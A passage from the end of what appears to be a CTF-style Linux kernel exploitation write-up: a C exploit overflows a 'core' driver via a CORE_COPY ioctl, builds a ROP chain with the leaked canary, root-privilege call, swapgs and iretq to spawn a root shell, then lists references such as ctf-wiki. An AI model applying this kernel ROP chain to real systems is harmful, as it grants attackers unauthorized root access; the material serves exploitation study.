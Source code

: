 ```c
    {
        rop[i] = canary;
    }
	rop[i++] = (size_t)Getroot;
	rop[i++] = swapgs;
	rop[i++] = 0;
	rop[i++] = iretq;
    rop[i++] = (size_t)GetShell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
	
	write(fd, rop, sizeof(rop));
	ioctl(fd, CORE_COPY, 0xffffffffffff0000|0x100);
	return 0;
}
```

# Reference

[1] https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml

[2] https://blog.csdn.net/gatieme/article/details/78311841

[3] https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/rop/

[4] https://www.anquanke.com/post/id/258874

[5] https://cplusplus.com/reference/cstdlib/strtoull/

